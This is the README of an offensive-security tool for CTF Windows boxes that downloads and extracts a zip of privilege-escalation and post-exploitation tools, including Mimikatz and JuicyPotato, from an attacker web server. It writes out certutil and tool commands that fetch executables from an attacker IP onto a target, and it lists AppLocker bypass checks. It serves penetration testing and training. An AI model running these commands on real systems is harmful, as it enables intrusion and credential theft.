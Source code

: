 # Privescker

**Advisory**

All the binaries/scripts/code of Privescker should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it on your own networks and/or with the network owner's permission.
* * *

**What is Privescker?**

This was a tool I created to make life easier when doing CTF exercises on Windows machines. Initially I created Privescker to embed a number of binaries which would be dumped onto the target when executed. However, I thought a way of making it more customisable without recompiling every time you want a new binary I made this version posted here.

Privescker is a single binary that will download a single **zip** file containing all of your favourite Windows enumeration tools and scripts and then extract them on the target.

**Now you may think - why bother with the binary and just extract the zip yourself?**

It's not that simple. In a cmd shell it's a pain in the backside especially on older versions of Windows. PowerShell is doable but you may have instances where PowerShell is limited or not available at all.

**Other things it can do**

I have also built in the functionality to pass an argument and check AppLocker bypass locations to see whether you have write access to them. This is very handy when working on restrictive boxes.

```
privescker.exe -p
```

I have more planned for future released such as building your zip files and getting the latest versions of specific tools for you depending on user configs and other ideas. More to come on this in future.

**The manual way**

We all know the manual way of dumping files onto Windows is quite laborious, especially in older versions of Windows such as:
```
certutil -urlcache -f http://10.10.14.12:8000/enum.exe c:\users\public\enum.exe
```
Now multiply that by all the scripts, enum and post exploitation tools you want on the machine and it becomes time consuming.

**The Privescker way**

Once the privescker.exe binary is on the machine:
```
privescker.exe -u http://10.10.14.12:8000/enum-tools.zip -o c:\users\public
```

Then all your files you need to move to Windows will be dumped to the location you chose.

**Notes**

This is probably not advised on pentests as I'm sure AV will light up like a Christmas tree with all the different scripts and tools being extracted on the machine.

**Usage**

First you will need to get all your common and favourite tools and scripts and add them to a zip file on your attack machine (you can add subfolders within your zip if you please).

Personally here are some of the ones I have:
- accesschk.exe
- jaws.ps1
- nc.exe
- plink.exe
- PowerUp.ps1
- Seatbelt.exe
- SharpHound.exe
- SharpHound.ps1
- Sherlock.ps1
- Watson.exe
- winPEAS.bat
- winPEAS.exe
- JuicyPotato.exe
- PrintSpoofer.exe
- RunAsUser.exe
- Mimikatz.exe
- wget.exe

The choice is yours, add what you want.

The next step is to set up a webserver on your attack box, for example:
```
python -m SimpleHTTPServer
```

Now from your Windows shell, download privescker.exe;

```
certutil -urlcache -f http://10.10.14.12:8000/privescker.exe c:\users\public\privescker.exe
```

Leaving your webserver running, just execute privescker like this to get all your favourite tools.

```
privescker.exe -u http://10.10.14.12:8000/enum-tools.zip -o c:\users\public
```

That is literally it - small simple tool to make life easier with getting all your common enumeration, privesc and post exploitation tools on the machine for you in one go.

Hope others find it helpful.

Feel free to use the Release version or compile it yourself if you prefer.

:-)

**Screenshots**

Help menu:

![](/screenshots/help.png)

Print AppLocker writable bypass locations:

![](/screenshots/printpaths.png)

Executing the tool:

![](/screenshots/running.png)

Showing the output:

![](/screenshots/dir.png)







